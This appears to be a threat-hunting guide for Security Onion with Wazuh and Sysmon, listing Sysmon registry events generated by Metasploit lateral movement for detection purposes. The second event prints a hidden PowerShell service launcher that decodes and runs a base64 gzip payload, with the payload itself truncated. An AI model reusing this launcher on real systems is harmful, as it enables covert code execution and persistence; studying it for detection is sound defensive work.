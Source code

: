 ## Security Onion Hunting  
The purpose of this task is to document the procedures for threat hunting in Security Onion.  The task includes Sysmon examples and queries used to find the events.  

## Conditions  
* Security Onion: The system must be installed and setup to receive log forwarding from the Wazuh agent on endpoints  
* Clients: 
	* Sysmon installed using the ionstorm config file  
	* Wazuh agent installed and forwarding, inscluding sysmon logs to Security Onion  


## Standards  
These first examples are events from Sysmon showing some of the common tactics used by threat actors.  The events have been generated using MetaSploit and  CobaltStrike  

### Lateral Movement  
A common tactic for lateral movement is to push an executable to a remote system and start a service, similar to how psexec.exe works  
* Metasploit lateral movement using a service to initiate callback  
	```
	Registry value set:
	RuleName: MitreRef=T1060,Technique=Registry Autorun Keys,Tactic=Persistence
	EventType: SetValue
	UtcTime: 2021-06-12 03:49:29.470
	ProcessGuid: {298db6a9-2c67-60c4-eeb3-000000000000}
	ProcessId: 620
	Image: C:\Windows\system32\services.exe
	TargetObject: HKLM\System\CurrentControlSet\Services\DpRHdvsE\Start
	Details: DWORD (0x00000003)
	```

* Metasploit lateral movement using a service to initiate callback, second event  
	```
	Registry value set:
	RuleName: MitreRef=T1060,Technique=Registry Autorun Keys,Tactic=Persistence
	EventType: SetValue
	UtcTime: 2021-06-12 03:49:29.470
	ProcessGuid: {298db6a9-2c67-60c4-eeb3-000000000000}
	ProcessId: 620
	Image: C:\Windows\system32\services.exe
	TargetObject: HKLM\System\CurrentControlSet\Services\DpRHdvsE\ImagePath
	Details: %%COMSPEC%% /b /c start /b /min powershell.exe -nop -w hidden -noni -c "if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\syswow64\WindowsPowerShell\v1.0\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c &([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(''H4sIAMguxGACA7shortentedforreadability''))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"
	```  
